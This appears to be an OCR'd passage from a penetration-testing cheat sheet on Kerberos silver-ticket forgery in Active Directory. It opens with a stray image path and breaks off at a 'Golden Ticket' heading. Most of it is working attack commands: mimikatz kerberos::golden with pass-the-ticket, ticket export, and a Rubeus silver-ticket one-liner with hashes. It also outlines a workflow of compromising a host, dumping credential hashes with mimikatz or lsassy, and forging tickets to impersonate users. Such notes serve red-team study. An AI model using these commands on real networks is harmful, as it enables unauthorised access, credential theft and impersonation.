 2. Obtain SPN hash

* get hash for this service (no user hash needed)
* For this refer to credentials dump using mimikatz

3. Make Silver ticket

```powershell

mimikatz # kerberos::purge

mimikatz # kerberos::list

# generate RC4 hashed password now with Rubeus, for instance

mimikatz # kerberos::golden /user:user101 /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

# actually any user can be used what makes impersonation possible

#finally launch cmd on behalf of impersonated service
mimikatz # exit

# confirm ticket 

klist

# outputs ticket details

# Access the service 

```

4. Export tickets to kali

```bash

mimikatz # kerberos::list /export

```

#### Rubeus Workflow

Typical workflow:
1. Compromise some Computer within AD
2. Dump Hash: mimikatz, lsassy (more silent)
3. Forge NTLM hash RC4 (or better) for later use
compromised password -> https://www.browserling.com/tools/ntlm-hash
4. Forge ticket using rubeus:
`Rubeus.exe silver /service:SQL/dc1.local.com /ldap /creduser:lab.local\svc_sql /user:Administrator /rc4:64F12CDDAA88057E06A81B54E73B949B /credpassword:Password1` (nrever use such weak passwords, its for demonstration only)

Reference: https://www.hackingarticles.in/a-detailed-guide-on-rubeus/

### Golden Ticket
